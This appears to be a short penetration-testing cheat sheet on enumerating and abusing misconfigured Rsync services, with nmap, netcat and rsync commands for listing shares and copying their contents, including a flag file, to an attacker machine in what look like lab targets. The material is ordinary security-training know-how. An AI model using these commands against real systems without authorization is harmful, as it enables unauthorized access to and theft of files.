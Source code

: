 
## Info

- [Rsync](https://linux.die.net/man/1/rsync) is a fast and efficient tool for copying files locally and remotely.
    
- Can be used **without authentication** if misconfigured.
    

---

## Guide

- [HackTricks Rsync Guide](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync)
    
- Abuse cases:
    
    - List contents of a shared folder on the target.
        
    - Retrieve files locally.
        
    - Test for password re-use if credentials are found elsewhere.
        

---

## Nmap Rsync

Scan for Rsync service:

```bash
sudo nmap -sV -p 873 127.0.0.1
```

---

## Probing for Accessible Shares

```bash
nc -nv 127.0.0.1 873
```

Example output:

```
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
dev            	Dev Tools
@RSYNCD: EXIT
```

---

## Enumerating Accessible Share

List the contents of a share:

```bash
rsync -av --list-only rsync://127.0.0.1/dev
rsync rsync://10.129.225.48/ --list-only
```

---

## Syncing Shares to Attacker Machine

Copy entire share to local system:

```bash
rsync -av rsync://127.0.0.1/dev
```

Over SSH (default or custom port):

```bash
rsync -av -e ssh user@target:/path /local/path
rsync -av -e "ssh -p2222" user@target:/path /local/path
```

---

## Downloading Contents of a Share

Retrieve specific file:

```bash
rsync rsync://10.129.225.48/public/flag.txt .
```